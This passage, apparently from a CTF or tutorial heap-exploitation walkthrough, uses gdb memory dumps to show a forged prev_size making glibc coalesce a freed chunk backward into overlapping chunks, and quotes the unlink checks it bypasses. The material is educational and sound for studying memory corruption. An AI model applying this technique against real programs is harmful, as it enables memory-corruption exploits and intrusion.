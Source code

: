 ```
0x555555757100:	0x0000000000000000	0x0000000000000091 <-- chunk 0 (free)
0x555555757110:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000090	0x0000000000000070 <-- chunk 1 (free)
0x5555557571a0:	0x0000000000000000	0x0000000000000000
0x5555557571b0:	0x0000000000000000	0x0000000000000000
0x5555557571c0:	0x0000000000000000	0x0000000000000000
0x5555557571d0:	0x0000000000000000	0x0000000000000000
0x5555557571e0:	0x0000000000000000	0x0000000000000000
0x5555557571f0:	0x0000000000000000	0x0000000000000000
0x555555757200:	0x0000000000000000	0x0000000000000071 <-- chunk 2 (in use)
0x555555757210:	0x0000000000000000	0x0000000000000000
0x555555757220:	0x0000000000000000	0x0000000000000000
0x555555757230:	0x0000000000000000	0x0000000000000000
0x555555757240:	0x0000000000000000	0x0000000000000000
0x555555757250:	0x0000000000000000	0x0000000000000000
0x555555757260:	0x0000000000000000	0x0000000000000000
0x555555757270:	0x0000000000000170	0x0000000000000090 <-- chunk 3 (in use & previous chunk at 0x555555757100)
```

We've edited `chunk 2` such that the `prev_size` field of `chunk 3` will fool it (once `chunk 3` is free'd) into thinking that the
previous chunk **isn't** in use and it's **0x170** bytes before. All that is left is to free `chunk 3`, `malloc` will coalesce `chunk 3` and `chunk 0` and the resulting consolidated chunk will be big enough to overlap with `chunk 1` which is free.

Both `unlink` checks are bypassed:

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
    FD = P->fd;								      \
    BK = P->bk;								      \
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr ("corrupted double-linked list");	
```

```python
free(3)
```

```
0x555555757100:	0x0000000000000000	0x0000000000000201 <-- consolidated chunk
0x555555757110:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000090	0x0000000000000070 <-- chunk 1 (free)
0x5555557571a0:	0x0000000000000000	0x0000000000000000


(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
```
